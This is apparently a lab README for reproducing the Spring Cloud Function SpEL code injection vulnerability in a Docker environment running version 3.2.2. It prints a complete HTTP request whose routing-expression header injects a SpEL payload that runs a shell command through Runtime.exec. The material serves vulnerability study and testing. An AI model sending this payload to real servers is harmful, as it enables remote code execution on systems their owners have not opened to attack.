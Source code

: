 # Spring Cloud Function SpEL Code Injection

[中文版本(Chinese version)](README.zh-cn.md)

Spring Cloud Function provides a common model for deploying function-based software on a variety of platforms, including FaaS (function as a service) platforms like Amazon AWS Lambda.

References:

- <https://mp.weixin.qq.com/s/onYJWIESgLaWS64lCgsKdw>
- <https://github.com/spring-cloud/spring-cloud-function/commit/0e89ee27b2e76138c16bcba6f4bca906c4f3744f>

## Vulnerability Environment

Execute the following command to start a server that uses Spring Cloud Function 3.2.2:

```
docker-compose up -d
```

After server is started, execute `curl http://your-ip:8080/uppercase -H "Content-Type: text/plain" --data-binary test` you can convert the user input to uppercase.

## Vulnerability Reproduce

There is a SpEL expression injection in the request header `spring.cloud.function.routing-expression`.

Send the following request to execute `touch /tmp/success` on the target server:

```
POST /functionRouter HTTP/1.1
Host: localhost:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Connection: close
spring.cloud.function.routing-expression: T(java.lang.Runtime).getRuntime().exec("touch /tmp/success")
Content-Type: text/plain
Content-Length: 4

test
```

![](1.png)

As you can see, `touch /tmp/success` has been executed successfully.

![](2.png)
